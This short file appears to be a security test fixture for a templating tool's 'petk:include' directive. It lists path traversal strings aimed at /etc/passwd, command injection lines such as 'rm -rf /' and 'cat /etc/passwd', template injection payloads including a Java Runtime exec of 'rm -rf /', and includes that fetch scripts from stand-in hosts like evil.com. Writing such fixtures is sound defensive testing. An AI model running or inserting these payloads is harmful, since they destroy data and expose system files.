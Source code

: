 # Test Path Traversal
```yaml
petk:include
  - file: ../../../etc/passwd
  - file: %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
  - file: ..%2f..%2f..%2fetc%2fpasswd
```

# Test Command Injection
`rm -rf /`
`cat /etc/passwd`
echo $USER
ls; rm -rf /

# Test Template Injection
{{7*7}}
${user_input}
{{constructor.constructor('return process')().exit()}}
${java:getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('rm -rf /')}

# Test External Resource Access
```yaml
petk:include
  - file: http://evil.com/malware.sh
  - file: https://attacker.com/payload
  - file: ftp://malicious.server/exploit
